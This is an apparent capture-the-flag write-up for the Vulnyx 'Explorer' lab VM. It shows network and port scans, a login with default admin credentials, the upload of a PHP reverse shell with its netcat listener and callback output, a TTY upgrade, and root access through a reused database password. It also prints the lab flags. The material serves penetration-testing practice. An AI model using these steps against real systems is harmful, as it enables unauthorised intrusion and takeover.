



**Platform:** Vulnyx\
**Operating System:** Linux

> **Tags:** `Linux` `Robots.txt` `Default Credentials` `File Upload` `Reverse Shell` `Password Reuse`

## INSTALLATION

We download the `zip` containing the `.ova` of the Explorer machine, extract it, and import it into VirtualBox.

We configure the network interface of the Explorer machine and run it alongside the attacker machine.

## HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to Explorer, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```

Info:

```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:1c:29:88      1      60  PCS Systemtechnik GmbH      
 10.0.4.22       08:00:27:a0:a2:05      1      60  PCS Systemtechnik GmbH
```

We identify with high confidence that the victim’s IP is `10.0.4.22`.

## PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.22
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 10.0.4.22
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 14:42 CEST
Nmap scan report for 10.0.4.22
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.65 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/extplorer
|_http-server-header: Apache/2.4.65 (Debian)
MAC Address: 08:00:27:A0:A2:05 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

Ports `22` and `80` are open.

We access the web service over `HTTP`, the server is running but there is no content yet.

The scan reveals a `robots.txt` file, and it contains a Disallow entry for `/extplorer`.



Encontramos una disallowed entry, un directorio llamado /extplorer.

We navigate to `/extplorer` and encounter a `login` page.



We try common/default credentials such as `admin` : `admin`.

The default credentials work, so we log in to an admin panel that appears to be a web file manager supporting uploads and downloads.

We upload a `PHP` reverse shell (PentestMonkey’s `php-reverse-shell`).



Before any further action, we start a `listener` on our attacker machine.

```bash
sudo nc -nlvp 4444
```

We now execute the uploaded file at `http://10.0.4.22/shell.php` and obtain a `reverse shell` as user `www-data`.

Info:

```
connect to [10.0.4.12] from (UNKNOWN) [10.0.4.22] 60142
Linux explorer 6.1.0-39-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.148-1 (2025-08-26) x86_64 GNU/Linux
 14:53:20 up 12 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

We have obtained a `reverse shell` as the user `www-data`!

In `/home` we find the `user flag`.

```
3f2580ab16ac82c9e0adaf0dad3a900d
```

## TTY

Before attempting privilege escalation, we upgrade the `TTY` for a more interactive shell:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## PRIVILEGE ESCALATION

We check for `sudo` privileges, `SUID` binaries, and Linux `capabilities`.

However, no obvious privilege escalation vectors are found.

Under `/var/www/html/extplorer/config` we find `conf.php`:

```
$GLOBALS['DB_HOST'] = 'localhost';
$GLOBALS['DB_NAME'] = 'webdav';
$GLOBALS['DB_USER'] = 'root';
$GLOBALS['DB_PASSWORD'] = 'AccessGranted#1';
$GLOBALS['DB_TYPE'] = 'mysql'; // Name of the Database Server Type (see http://en.php.net/manual/en/pdo.drivers.php for more)
```

Reading it reveals `MySQL` credentials `root` : `AccessGranted#1`, but the `MySQL` service appears to be down or inaccessible.

We try the same password on the system `root` account.

```bash
su root
```

Info:

```
root@explorer:/var/www/html/extplorer/config# whoami
root
root@explorer:/var/www/html/extplorer/config#
```

It works, and we obtain a `root` shell!

In `/root` we find the `root flag`:

```
9a045d36c5a28f01784bdcfb326accfe
```
